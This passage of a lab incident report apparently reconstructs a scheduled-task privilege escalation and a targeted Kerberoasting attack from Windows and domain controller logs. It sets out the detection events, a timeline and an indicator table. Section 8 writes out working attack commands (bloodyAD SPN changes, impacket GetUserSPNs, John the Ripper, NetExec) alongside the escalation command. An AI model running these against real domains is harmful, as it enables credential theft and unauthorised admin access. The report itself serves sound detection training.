

*Figure 116 — Security Event ID 4672: assignment of special privileges to the new `CORP\lab.user` session. The identical Logon ID `0x9F6B3D` directly links the event to the repeated 4624 logon.*

> **Evidence gap:** during the attack, Security Event ID 4688 was not reliably recorded, although the pre-attack test was successful. Process execution was reconstructed through Sysmon Event ID 1 and PowerShell 4104. 


### 7.2. Sysmon

During the attack time interval, the processes `wsmprovhost.exe`, `powershell.exe`, `whoami.exe`, `icacls.exe`, `net.exe`, and `net1.exe` were found. The chain is consistent with a remote PowerShell session, ACL verification, script modification, and subsequent payload execution as `NT AUTHORITY\SYSTEM`. Particularly important are the `net localgroup Administrators ... /add` command line, creation of the `backup-original.ps1` backup copy, the Event ID 3 network connection, and Sysmon file events.


*Figure 117 — Sysmon Event ID 1 for a PowerShell process in the attack chain.*


*Figure 118 — Sysmon Event ID 1 for `wsmprovhost.exe`, which serviced the remote PowerShell session.*


*Figure 119 — Sysmon Event ID 1 for `whoami.exe`.*


*Figure 120 — Sysmon Event ID 1 for `net.exe`.*


*Figure 121 — Sysmon Event ID 1 for `net1.exe`.*


*Figure 122 — Sysmon Event ID 1 for `icacls.exe`.*


*Figure 123 — Details of the Sysmon event for `net.exe` with the command line that modified the local group.*


*Figure 124 — Sysmon Event ID 3 for the network connection associated with the WinRM session.*


*Figure 125 — Sysmon Event ID 11 for the creation of a file-system artifact.*


#### 7.2.1. Event Correlation in Sysmon View

For additional visualization, the `Microsoft-Windows-Sysmon/Operational` log was exported and loaded into Sysmon View. The `UTC Time` field and timestamps in Process View display UTC time. On the day the work was performed, local CEST time was two hours ahead of UTC, so, for example, `13:43:29 UTC` corresponds to `15:43:29 CEST`. After this conversion, the events align with the timestamps of the main attack and the Evil-WinRM screenshots.

The File Created event recorded that the `wsmprovhost.exe` process in the remote session created the file `C:\Users\lab.user\Documents\backup-original.ps1` at `13:21:49 UTC`, that is, at `15:21:49 CEST`. This directly corresponds to the `Copy-Item` command executed before modifying the privileged script.



*Figure 126 — Sysmon View: `wsmprovhost.exe` creates the `backup-original.ps1` backup copy in the `lab.user` profile (`13:21:49 UTC` / `15:21:49 CEST`).*

Process View for the initial WinRM session shows `wsmprovhost.exe` as the parent process for `whoami.exe`, `net.exe`, `net1.exe`, and `icacls.exe`. The time `12:40:15–12:48:03 UTC` corresponds to `14:40:15–14:48:03 CEST` and matches the stages of verifying the user, the local Administrators group, and the permissions on `backup.ps1`.



*Figure 127 — Sysmon View Process View: the initial WinRM session spawns the reconnaissance processes `whoami.exe`, `net.exe`/`net1.exe`, and `icacls.exe`.*

The strongest process evidence of privilege escalation is the separate chain `powershell.exe → whoami.exe` and `powershell.exe → net.exe → net1.exe`. It was recorded at `13:43:26–13:43:29 UTC`, that is, at `15:43:26–15:43:29 CEST`. The details for `net.exe` and `net1.exe` show the user `NT AUTHORITY\SYSTEM`, the `System` integrity level, and the command line adding `CORP\lab.user` to the local Administrators group.



*Figure 128 — Sysmon View Process View: PowerShell in the SYSTEM context launches `whoami.exe`, `net.exe`, and `net1.exe` during payload execution.*



*Figure 129 — Sysmon View: `net.exe`, running as `NT AUTHORITY\SYSTEM`, executes `localgroup Administrators CORP\lab.user /add` with the `System` integrity level.*



*Figure 130 — Sysmon View: the child `net1.exe` repeats the local group modification operation in the same SYSTEM context.*

After the membership change, a new WinRM session was created. The tree with `wsmprovhost.exe` and child processes `whoami.exe`, `net.exe`/`net1.exe`, and `fltmc.exe` was recorded at `13:53:45–13:54:48 UTC`, that is, at `15:53:45–15:54:48 CEST`. `fltmc.exe` itself is a useful control command because its successful execution requires elevated privileges. This tree should be correlated with the new `CORP\lab.user` logon and the result of `net session`, because Process View alone does not show all user token fields.



*Figure 131 — Sysmon View Process View: the new WinRM session after escalation spawns `whoami.exe`, `net.exe`/`net1.exe`, and `fltmc.exe` to verify administrative access.*


### 7.3. Task Scheduler Operational

The `Microsoft-Windows-TaskScheduler/Operational` log contains the complete execution chain of the privileged task during the attack time interval. All events relate to `\Corp Backup Task` and one task instance with GUID `{b826d604-1d3a-4916-8867-a3cfcb38c036}`. The local timestamps `15:43:26–15:43:31` align with Sysmon: `powershell.exe` was created at `13:43:26.579 UTC`, and `net.exe` and `net1.exe` at `13:43:29 UTC`, which, after conversion to CEST, corresponds to the same interval.

Event ID 110 confirms that, because the periodic trigger did not execute, the task was initiated manually.



*Figure 132 — Task Scheduler Event ID 110: manual initiation of `\Corp Backup Task` at the time of the main attack scenario.*

Event ID 100 shows the task instance starting as `NT AUTHORITY\SYSTEM`, thereby confirming the privileged context in which the modified `backup.ps1` was read.



*Figure 133 — Task Scheduler Event ID 100: start of `\Corp Backup Task` as `NT AUTHORITY\SYSTEM`.*

Event ID 129 links the task to the `powershell.exe` process and PID `5668`. This is a direct bridge between the Scheduled Task configuration and the SYSTEM process chain shown in Sysmon View.



*Figure 134 — Task Scheduler Event ID 129: creation of the `powershell.exe` process with PID 5668 to execute `\Corp Backup Task`.*

Event ID 201 shows that the `powershell.exe` action completed with return code `0`. By itself, this code does not prove the result of every command inside the scenario, but in combination with Sysmon Event ID 1 and Security Event ID 4732, it confirms the successful completion of the privileged stage.



*Figure 135 — Task Scheduler Event ID 201: the `powershell.exe` action within `\Corp Backup Task` completed with return code 0.*

Events 200 (`Action started`) and 102 (`Task completed`) were also present in the same chain, but were not inserted separately because they mostly duplicate the confirmation of start and completion provided by events 129 and 201.


### 7.4. PowerShell and Windows Firewall

Event ID 4104 contains the text of the PowerShell code block, which makes it possible to recover the actual PowerShell commands. The Windows Firewall log confirms network activity between `10.125.10.10` and WIN10, but by itself does not prove successful authentication; this requires correlation with 4624/4625 and WinRM/Sysmon.


*Figure 136 — PowerShell Event ID 4104 with the text of the executed script block.*


*Figure 137 — Windows Firewall entries associated with traffic between Kali and WIN10.*


## 8. Additional Attack on Active Directory

### 8.1. Initial State and Adding the SPN

A separate directory and timestamp were created. The `lab.user` password was stored in a shell variable without being displayed on the screen:

```bash
mkdir -p ~/SOC-LAB-AD-Attack
cd ~/SOC-LAB-AD-Attack
date | tee AD-attack_start.txt
read -s LABPASS
```

`read -s` hides the input on the screen, but the variable still exists in the memory of the current shell.

Initial state:

```bash
bloodyAD -H dc01.corp.test -i 10.125.10.30 \
  -d corp.test -u lab.user -p "$LABPASS" \
  get object svc_backup --attr servicePrincipalName
```

`-H` specifies the DC host name,
`-i` its IP,
`-d/-u/-p` the domain and credentials,
`get object` reads an LDAP object,
`--attr` limits the output to one attribute. 
Initially, the SPN was empty.


*Figure 138 — Creation of the `SOC-LAB-AD-Attack` directory and recording the start time of the AD stage.*


*Figure 139 — Verification of DNS/DC and initial query of the `servicePrincipalName` attribute through bloodyAD.*


*Figure 140 — Initial state of `svc_backup`: the `servicePrincipalName` attribute is empty.*


Adding a synthetic SPN:

```bash
bloodyAD -H dc01.corp.test -i 10.125.10.30 \
  -d corp.test -u lab.user -p "$LABPASS" \
  set object svc_backup servicePrincipalName \
  -v 'HTTP/backup.corp.test'
```

`set object` modifies the LDAP attribute, 
`-v` passes the new value. 
A real HTTP service is not required: for Kerberos, binding the SPN to the account is sufficient. Because `set object` in bloodyAD replaces the value of a multi-valued attribute, this command must be used carefully on production objects; in the laboratory, the initial list was empty.

Verification:

```bash
bloodyAD -H dc01.corp.test -i 10.125.10.30 \
  -d corp.test -u lab.user -p "$LABPASS" \
  get object svc_backup --attr servicePrincipalName | tee 02-spn-after.txt
```


*Figure 141 — Successful setting of the synthetic SPN `HTTP/backup.corp.test` on `svc_backup`.*


*Figure 142 — The repeated LDAP query confirms the new SPN value.*


### 8.2. Targeted Kerberoasting

```bash
impacket-GetUserSPNs "corp.test/lab.user:$LABPASS" \
  -dc-ip 10.125.10.30 \
  -dc-host dc01.corp.test \
  -request-user svc_backup \
  -outputfile svc_backup_tgs.hash
```

- the first argument is the domain, user, and password for authentication;
- `-dc-ip` is the IP address of the controller/KDC;
- `-dc-host` is the FQDN of the controller;
- `-request-user` restricts the request to a specific account;
- `-outputfile` is the file containing TGS material in a format for offline password cracking.

The resulting file is not a “password” or a regular NTLM hash. It is a representation of part of the TGS encrypted with a key derived from the account password, which makes it possible to test candidates offline without new requests to the DC.


*Figure 143 — Impacket `GetUserSPNs` requests a TGS for `svc_backup` and writes the result to a file.*


*Figure 144 — The `svc_backup_tgs.hash` file was created and is not empty.*


*Figure 145 — Beginning of the Kerberos material in `$krb5tgs$23$` format.*


### 8.3. Offline Password Recovery and LDAP Verification

A short wordlist was used for the controlled laboratory, after which John the Ripper was started:

```bash
john --format=krb5tgs --wordlist=ad_candidates.txt svc_backup_tgs.hash
```

`--format=krb5tgs` selects the Kerberos TGS format,
`--wordlist` is the candidate file. 
The `$krb5tgs$23$` prefix indicates RC4-HMAC/etype 23 in the saved material. 
The password was recovered.

Validity verification:

```bash
read -s SVCPASS
nxc ldap 10.125.10.30 -d corp.test -u svc_backup -p "$SVCPASS"
```

The `ldap` module verified domain authentication on DC01. Success confirms that the recovered password is correct, but does not mean that `svc_backup` has administrative privileges.


*Figure 146 — Small laboratory candidate wordlist for offline verification.*


*Figure 147 — John the Ripper recovers the weak `svc_backup` password from the TGS material.*


*Figure 148 — NetExec confirms the validity of the recovered `svc_backup` credentials through LDAP.*


## 9. Detecting the AD Stage on DC01

- **5136** — modification of an AD directory object; in this case, `servicePrincipalName` on `svc_backup`
- **4662** — operation on an AD object, generated because of the SACL;
- **4768** — TGT request during Kerberos authentication;
- **4769** — TGS service ticket request for the SPN.

4769 is a normal Kerberos event and by itself does not prove Kerberoasting. Suspicion arises when it is correlated with a recent atypical SPN addition, the `lab.user` account, the Kali source address, the target account `svc_backup`, and etype 23.


*Figure 149 — DC01 Security Event ID 5136: the `servicePrincipalName` attribute of the `svc_backup` object was modified.*


*Figure 150 — DC01 Security Event ID 4662: an operation was performed on an Active Directory object.*


*Figure 151 — DC01 Security Event ID 4768: TGT request associated with authentication during the AD stage.*


*Figure 152 — DC01 Security Event ID 4769: Kerberos service ticket request for the added SPN.*


## 10. Attack Timeline

The times below were taken from events, visible terminal output, or the creation time of the corresponding screenshot. Sysmon and Sysmon View store the `UtcTime` field in UTC; to align it with the local laboratory time on 24.07.2026, two hours were added (`CEST = UTC+2`).

| Date and time (CEST)                                                   | Host              | Action                                                                                                                                        | Result                                                                                                                                                                       | Main evidence / IOC                                                                                                                       |
| ---------------------------------------------------------------------- | ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| 24.07.2026 14:11                                                       | Kali              | `SOC-LAB-Attack` created, start time recorded                                                                                                  | Start of the main stage                                                                                                                                                      | `attack_start.txt`, Fig. 94                                                                                                                |
| 14:17–14:23                                                            | Kali → DC01/WIN10 | Connectivity and Nmap verification                                                                                                             | DC ports are accessible; TCP 5985 is open                                                                                                                                    | `10.125.10.30`, `10.125.10.20:5985`, Figs. 95–97                                                                                           |
| 14:29–14:31, capture time                                              | Kali → WIN10      | NetExec tested two passwords                                                                                                                   | The output contains one failed and one successful attempt                                                                                                                    | Figs. 98–99                                                                                                                                |
| 14:36:32–14:36:33, event time                                         | WIN10             | Failed and successful network logons recorded                                                                                                  | 4625 and 4624, Logon Type 3                                                                                                                                                  | source `10.125.10.10`, Figs. 112–113                                                                                                       |
| 14:38, capture time; 14:40:15–14:48:03, Sysmon time                   | Kali → WIN10      | Evil-WinRM as `CORP\lab.user`, verification of the user, groups, and ACL                                                                      | Unprivileged remote session; `wsmprovhost.exe` spawns `whoami.exe`, `net.exe`/`net1.exe`, `icacls.exe`                                                                       | Logon Type 3, Figs. 100–104, 127                                                                                                           |
| 14:48–14:49                                                            | WIN10             | Script and ACL verified                                                                                                                        | `CORP\IT-Support:(M)` discovered                                                                                                                                             | `backup.ps1`, `icacls`, Figs. 103–104                                                                                                      |
| 14:58, ZIP creation time                                               | Kali → AD         | BloodHound CE data collection                                                                                                                  | Domain, ACLs, and computers collected                                                                                                                                        | BloodHound ZIP, Fig. 105                                                                                                                    |
| 15:21:49, exact Sysmon time; 15:22, capture time                      | WIN10 via WinRM   | `backup-original.ps1` created, after which `backup.ps1` was overwritten                                                                        | The backup copy is confirmed by File Created from `wsmprovhost.exe`; the modified script awaits privileged execution                                                        | Figs. 106–107, 126                                                                                                                         |
| 15:43:26–15:43:31, exact Task Scheduler and Sysmon time               | WIN10             | `\Corp Backup Task` manually initiated and started as SYSTEM; `powershell.exe` created, which spawned `whoami.exe`, `net.exe`, and `net1.exe` | `localgroup Administrators CORP\lab.user /add` executed; `lab.user` added to Administrators; action completed with code 0                                                   | Task Scheduler 110/100/129/201, `User=NT AUTHORITY\SYSTEM`, `IntegrityLevel=System`, Security 4732, Figs. 108–110, 114, 128–130, 132–135 |
| 15:53:45–15:54:48, exact Security and Sysmon time; 15:56, capture time | Kali → WIN10      | New Evil-WinRM session created as `CORP\lab.user`, and verification commands executed                                                         | 4624: Logon Type 3, Elevated Token Yes, source `10.125.10.10`; 4672: special privileges for the same Logon ID `0x9F6B3D`; `wsmprovhost.exe` spawned verification processes   | Security 4624/4672, `net session`, Figs. 111, 115–116, 131                                                                                  |
| 20:47                                                                  | Kali              | Start of the AD stage                                                                                                                          | Separate directory and timestamp created                                                                                                                                    | Fig. 138                                                                                                                                   |
| 20:52                                                                  | Kali → DC01       | Initial SPN verified                                                                                                                           | `servicePrincipalName` is empty                                                                                                                                              | Figs. 139–140                                                                                                                              |
| 20:55–20:56                                                            | Kali → DC01       | `HTTP/backup.corp.test` added                                                                                                                  | SPN bound to `svc_backup`                                                                                                                                                    | 5136/4662, Figs. 141–142, 149–150                                                                                                          |
| 21:06                                                                  | Kali → DC01       | TGS requested through GetUserSPNs                                                                                                              | `svc_backup_tgs.hash` created                                                                                                                                                | 4769, `$krb5tgs$23$`, Figs. 143–145, 152                                                                                                  |
| 21:26                                                                  | Kali, offline     | John tested the wordlist                                                                                                                       | Weak password recovered                                                                                                                                                      | Figs. 146–147                                                                                                                              |
| 21:29                                                                  | Kali → DC01       | NetExec LDAP with `svc_backup`                                                                                                                 | Credentials are valid                                                                                                                                                        | Fig. 148                                                                                                                                   |
| 21:56–22:04, capture time                                              | DC01              | Review of AD/Kerberos events                                                                                                                   | 5136, 4662, 4768, and 4769 collected                                                                                                                                         | Figs. 149–152                                                                                                                              |


## 11. Summary Table of Indicators of Compromise

| Category | Indicator | Investigation value | Source |
|---|---|---|---|
| IP | `10.125.10.10` | Kali address, source of WinRM/LDAP/Kerberos activity | 4624, 4625, Sysmon 3, Windows Firewall, DC01 events |
| IP | `10.125.10.20` | WIN10 victim machine | Nmap, WinRM, host logs |
| IP | `10.125.10.30` | DC01/KDC/LDAP/DNS | Nmap, Kerberos, AD logs |
| Network | TCP `5985` | WinRM over HTTP | Nmap, Windows Firewall, WinRM log |
| Account | `CORP\lab.user` | initial low-privileged account that was later added to Administrators | 4624, 4625, 4732, Sysmon |
| Group | `CORP\IT-Support` | group with excessive rights to the file and SPN | AD ACL, `icacls`, BloodHound |
| Account | `CORP\svc_backup` | target of targeted Kerberoasting | bloodyAD, GetUserSPNs, 5136/4769 |
| Group | `BUILTIN\Administrators` | local group whose membership was modified | Security 4732 |
| File | `C:\ProgramData\CorpBackup\backup.ps1` | modified file that was executed as SYSTEM | PowerShell 4104, Sysmon 11, `icacls` |
| File | `C:\ProgramData\CorpBackup\execution-context.txt` | artifact containing `nt authority\system` | Sysmon 11, file system |
| File | `C:\ProgramData\CorpBackup\privesc-result.txt` | result of `net localgroup ... /add` | Sysmon 11, file system |
| File | `C:\ProgramData\CorpBackup\backup.log` | baseline normal result of the task | file system |
| File | `backup-original.ps1` | backup copy of the initial script in the `lab.user` profile | user profile |
| File | `svc_backup_tgs.hash` | saved Kerberos TGS material | Kali file system |
| File | `02-spn-after.txt` | saved value of the new SPN | Kali file system |
| SPN | `HTTP/backup.corp.test` | synthetic SPN added to `svc_backup` | 5136, LDAP query, 4769 |
| Process | `wsmprovhost.exe` | PowerShell remoting host | Sysmon 1 |
| Process | `powershell.exe` | remote commands and execution of the modified Scheduled Task script | Sysmon 1, 4104 |
| Process | `whoami.exe` | verification of the SYSTEM context | Sysmon 1 |
| Process | `icacls.exe` | ACL verification/modification | Sysmon 1 |
| Process | `net.exe`, `net1.exe` | modification of the local Administrators group | Sysmon 1, Security 4732 |
| Command | `net localgroup Administrators "CORP\lab.user" /add` | direct escalation command | Sysmon 1, 4104, 4732 |
| Security event | `4625` | failed network logon from Kali | WIN10 Security |
| Security event | `4624` | successful network logons, Logon Type 3; after escalation — `Elevated Token: Yes`, Source IP `10.125.10.10`, Logon ID `0x9F6B3D` | WIN10 Security |
| Security event | `4732` | SYSTEM added the account to the local security group | WIN10 Security |
